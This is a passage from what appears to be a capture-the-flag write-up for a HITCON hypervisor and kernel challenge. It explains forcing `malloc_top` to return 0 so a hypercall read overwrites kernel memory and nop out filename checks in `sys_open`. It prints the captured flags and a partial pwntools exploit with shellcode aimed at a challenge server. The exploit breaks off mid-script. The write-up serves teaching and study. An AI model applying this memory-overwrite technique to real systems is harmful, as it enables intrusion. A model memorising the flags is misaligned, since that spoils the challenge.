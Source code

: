         if ( ret )
          return ret;
      }
      return 0;
    }
    ```
* We can not use the condition 1, because if we want to let the `len` to be 0x100000000, we need a memory space exactly has the 0x100000000 long space, due to `access_ok()` checking.
* We can't mmap that huge memory space.
* We have to go condition 2, let `malloc_top` return 0.
* `malloc_top`:

```c
signed __int64 malloc_top(unsigned __int64 nb)
{
  signed __int64 ret; // rax
  __int64 top; // rax
  unsigned __int64 new_top; // rdi

  ret = 0;
  if ( arena.top_size >= nb )
  {
    top = arena.top;
    arena.top_size -= nb;
    arena.top->size = nb;
    new_top = arena.top + nb;
    ret = arena.top + 16;
    arena.top = new_top;
  }
  return ret;
}

```
* Just give a size which lager than `arena.top_size`, it will return 0.
    1. `mmap(0, 0x1000000, 7)` -> `arena.top_size` remain the size < 0x1000000.
    2. `sys_read( 0, buf, 0x1000000 )` -> `kmalloc` in `hypercall read` will return 0.
    3. Pass 0 to hypervisor, `hypercall read handler` will do `read( 0, &vm->mem + 0 , 0x1000000 )`.
    4. Now we can overwrite the whole kernel space! 
* For flag2, I overwrite the opcodes in  kernel `sys_open` which do checking filename with `nop`.
* ORW flag2.
* exploit:

```python
#!/usr/bin/env python
from pwn import *

# hitcon{Go_ahead,_traveler,_and_get_ready_for_deeper_fear.}
# hitcon{take_out_all_memory,_take_away_your_soul}

context.arch = 'amd64'
host , port = '35.200.23.198' , 31733
y = remote( host , port )

kernel = open( './kernel.bin' ).read()

s = '31a-\\a:2107732+a;,' + '\x90' * 70
s += asm(
    '''
    mov rdi, 0
    mov rsi, 0x1000000
    mov rdx, 7
    mov r10, 16
    mov r8, -1
    mov r9, 0
    mov rax, 8
```